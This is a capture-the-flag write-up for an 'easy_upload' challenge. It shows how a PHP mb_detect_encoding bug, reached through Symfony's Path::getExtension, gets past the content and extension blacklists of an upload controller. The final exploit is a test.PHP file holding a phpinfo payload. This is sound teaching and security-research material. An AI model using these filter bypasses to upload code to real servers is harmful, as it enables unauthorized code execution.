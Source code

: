 # easy_upload

## How to Setup Environment

`docker-compose up -d`

## Write Up

I found a funny issue when I have no idea about challenge.

https://github.com/php/php-src/issues/9008

It cause strange result.

```php
<?php
$string = "PHP";

mb_detect_order(["ASCII","UTF-8","BASE64"]);
var_dump(
    mb_detect_encoding($string, null, true),
    mb_detect_encoding($string, mb_detect_order(), true),
    
    mb_convert_encoding($string, "UTF-8", "BASE64"),
    mb_strtolower($string, "BASE64"),
);
```



```
Output for 8.2.0
string(5) "ASCII"
string(5) "ASCII"
string(2) "<s"
string(4) "PHM="

Output for 8.0.1 - 8.0.26, 8.1.10 - 8.1.13
string(5) "ASCII"
string(5) "ASCII"
string(2) "<s"
string(4) "PHM="

Output for 8.1.0 - 8.1.9
string(6) "BASE64"
string(5) "ASCII"
string(2) "<s"
string(4) "PHM="
```

I search it in github and  found that `Symfony\Component\Filesystem\Path::getExtension`  will call `mb_detect_encoding` when enable `$forceLowerCase` which means that it can bypass extension black list. Like following code:

```php
<?php
    $path = "webshell.PHP";
	$disable_ext = ["php"];
	$ext = Symfony\Component\Filesystem\Path::getExtension($path, true);
	if(in_array($ext, $disable_ext)){
        die("hack go away");
    }

```

`UploadController` has two limitations:
1. content check
2. extension check

### bypass content check

```php
$content = file_get_contents($file["tmp_name"]);
$charset = mb_detect_encoding($content, null, true);
if(false !== $charset){
    if($charset == "BASE64"){
        $content = base64_decode($content);
    }
    foreach ($this->content_blacklist as $v) {
        if(stristr($content, $v)!==false){
            return $this->invalid("fucking $v .");
        }
    }
}else{
    return $this->invalid("fucking invalid format.");
}
```
If we can cheat mb_detect_encoding recognize invalid BASE64 string as BASE64 then the check fails.

`mb_detect_encoding("\xffPHP<?php phpinfo();");` => BASE64
### bypass extension check

```php
$ext = Path::getExtension($file["name"], true);
if(strstr($file["name"], "..")!==false){
    return $this->$this->invalid("fucking path travel");
}
foreach ($this->ext_blacklist as $v){
    if (strstr($ext, $v) !== false){
        return $this->invalid("fucking $ext extension.");
    }
}
...
$result = move_uploaded_file($file["tmp_name"], "$dir/upload/".strtolower($file["name"]));
```
`Path::getExtension($file["name"], true)`, the second argument force the extionsion to be in lower case.
So using `PHP` extension seems not able to bypass blacklist. But actually it can.

Symfony use the following code to lower extension.
```php
private static function toLower(string $string): string
{
    if (false !== $encoding = mb_detect_encoding($string, null, true)) {
        return mb_strtolower($string, $encoding);
    }

    return strtolower($string);
}
```
`mb_detect_encoding("PHP", null, true)` => BASE64

`mb_strtolower("PHP", "BASE64")` => PHM=

## Exploit

test.PHP

```
\xff<?php phpinfo();
```

